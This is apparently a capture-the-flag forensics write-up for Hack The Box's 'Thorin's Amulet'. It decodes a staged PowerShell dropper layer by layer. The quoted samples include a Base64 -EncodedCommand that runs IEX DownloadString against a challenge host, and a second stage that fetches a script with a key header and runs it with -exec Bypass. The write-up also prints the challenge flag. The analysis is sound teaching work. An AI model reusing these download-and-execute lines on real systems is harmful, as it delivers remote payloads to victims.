 # Thorin's Amulet

> **Note:**  
> The challenge can be downloaded here: [forensics_thorins-amulet.zip](https://0x42697262.github.io/birbrain/writeups/HackTheBox/_attachments/thorins-amulet/forensics_thorins_amulet.zip)

## Overview

### Description

Garrick and Thorin’s visit to Stonehelm took an unexpected turn when Thorin’s old rival, Bron Ironfist, challenged him to a forging contest.
In the end, Thorin won the contest with a beautifully engineered clockwork amulet, but the victory was marred by an intrusion.
Saboteurs stole the amulet and left behind some tracks.
Because of that, it was possible to retrieve the malicious artifact that was used to start the attack.
Can you analyze it and reconstruct what happened?  


This forensics challenge involves analyzing a Base64-encoded PowerShell "malware" script.
The script retrieves another script from a web URL protected by basic authentication.
Inside the downloaded script lies the actual malware code—our flag.

## Investigation

I opened `artifact.ps1` and immediately noticed a Base64-encoded string being executed with `powershell.exe -EncodedCommand`.

> **Note:**  
> The source code of the script can be downloaded [here](https://0x42697262.github.io/birbrain/writeups/HackTheBox/_attachments/thorins-amulet/files/artifact.ps1).

As I do not like running scripts without checking them first, I opened the script in a text editor:

### artifact.ps1

```powershell
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
```

### Decoding the First Layer

Here's the relevant line:

```powershell
powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
```

This suggests that the script is trying to execute a command encoded in *Base64*.

Interestingly, the script contains a basic anti-analysis check:

```powershell
if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
    exit
}
```

If the computer name isn’t `WORKSTATION-DM-0043`, the script terminates.
This is likely an attempt by the author to prevent execution on unintended machines.

Since I was too lazy to open *CyberChef*, I extracted and decoded the Base64 string directly:

```bash
grep -Eo '"[A-Za-z0-9+/=]+"' artifact.ps1 | tr -d '"' | base64 -d
```

#### Explanation:
- `grep -Eo '"[A-Za-z0-9+/=]+"' artifact.ps1`  
  - `-E`: Enables extended regular expressions.
  - `-o`: Outputs only the matched text, excluding surrounding content.
  - `"[A-Za-z0-9+/=]+"`: Matches a quoted Base64 string.
- `tr -d '"'`  
  - Removes double quotes from the matched Base64 string.
- `base64 -d`  
  - Decodes the extracted Base64 string.

#### Better Method Using `awk`

```bash
awk -F'"' '/EncodedCommand/ {print $2}' artifact.ps1 | base64 -d
```

**Why is this better?**
- Instead of searching for arbitrary quoted strings (grep method), it directly finds the `EncodedCommand` line.
- `awk -F'"' '{print $2}'` extracts only the content inside the quotes.
- More precise and avoids unintended matches.

This gave us:

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
```

So, the script is attempting to download another payload from `http://korp.htb/update` using PowerShell’s `DownloadString` method.

## Fetching the Second Script

> **Note:**  
> The source code of `update.ps1` can be downloaded [here](https://0x42697262.github.io/birbrain/writeups/HackTheBox/_attachments/thorins-amulet/files/update.ps1).

### update.ps1

```powershell
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq
```

In `update.ps1`, there is a function `aqFVaq`. This function fetches another script from `http://korp.htb/a541a`, but this time it requires authentication via a custom HTTP header (`X-ST4G3R-KEY`).
Without this header, the request would fail.

I used `curl` to manually download the script:

```bash
curl http://korp.htb/a541a --header "X-ST4G3R-KEY:5337d322906ff18afedc1edc191d325d" -o a541a.ps1
```

Now, let’s check out `a541a.ps1`.

## Reconstruction

> **Note:**  
> The source code of `a541a.ps1` can be downloaded [here](https://0x42697262.github.io/birbrain/writeups/HackTheBox/_attachments/thorins-amulet/files/a541a.ps1).

### a541a.ps1

```powershell
$a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
($a35 -split "(..)" | ?{$_} | % {[char][convert]::ToInt16($_,16)}) -join ""
```

Notice that a hex-encoded string is assigned to the variable `$a35` and the variable gets decoded on the next line.

Since nothing is being executed dynamically here, it should be safe to decode.

### Decoding the Payload

Running it in PowerShell:

```powershell
powershell a541a.ps1
```

Output:

```
HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}
```

**Hence, flag captured! 🎉**

If you do not trust the code or do not know how to read PowerShell scripts, it is completely okay to copy the encoded flag hex values into CyberChef.


